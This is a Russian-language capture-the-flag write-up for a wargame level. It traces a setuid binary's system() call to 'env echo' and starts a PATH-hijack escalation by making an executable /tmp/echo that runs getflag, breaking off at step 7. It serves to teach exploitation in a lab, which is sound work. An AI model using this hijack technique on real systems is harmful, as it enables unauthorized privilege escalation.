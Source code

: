 1. В директории видим исполнительный файл level03
2. При попытке его запуска выводится текст "Exploit me". Это наводит на мысль что для перехода на flag03/level03 нужно воспользоваться какой-то узвимостью этого исполнительного файла
3. С помощью команды ltrace проверяем, какие системные вызовы делает исполняемый файл:

__libc_start_main(0x80484a4, 1, 0xbffff6e4, 0x8048510, 0x8048580 <unfinished ...>
getegid()                                                = 2003
geteuid()                                                = 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)      = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)      = 0
system("/usr/bin/env echo Exploit me"Exploit me
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                   = 0
+++ exited (status 0) +++

4. По выводу выше можно судить, что очевидное уязвимое место - вызов команды echo, куда можно с помощью обратных кавычек передать команду на исполнение чего-либо. Однако воспользоваться этим будет затруднительно, так как необходимо будет поменять содержимое бинарного файла. Другой вариант эксплойта - подменить содержимое команды echo.
5. В папке /tmp создаем файл под названием echo, внутрь записываем getflag
6. Даем права на исполнение файлу: chmod +x /tmp/echo
7. 
